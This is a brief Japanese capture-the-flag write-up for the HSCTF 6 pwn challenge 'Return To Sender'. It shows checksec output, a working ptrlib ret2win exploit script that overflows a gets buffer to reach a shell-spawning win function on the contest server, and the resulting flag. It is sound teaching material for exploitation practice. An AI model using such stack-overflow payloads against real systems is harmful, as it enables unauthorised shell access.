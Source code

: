 # [pwn 167pts] Return To Sender - HSCTF 6
32ビットです。
```
$ checksec -f return-to-sender
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable  FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   76 Symbols     No	0		4	return-to-sender
```

getsによるStack Overflowがあります。
また、シェルを呼び出してくれるwin関数があるので、これを利用しましょう。

```python
from ptrlib import *

elf = ELF("./return-to-sender")
#sock = Process("./return-to-sender")
sock = Socket("pwn.hsctf.com", 1234)

payload = b'A' * 0x14
payload += p32(elf.symbol("win"))
sock.sendline(payload)

sock.interactive()
```

簡単ですね。
```
$ python solve.py 
[+] __init__: Successfully connected to pwn.hsctf.com:1234
[ptrlib]$ Where are you sending your mail to today? Alright, to AAAAAAAAAAAAAAAAAAAA¶ it goes!
cat flag
[ptrlib]$ hsctf{fedex_dont_fail_me_now}
```

# 感想
基礎問だと思います。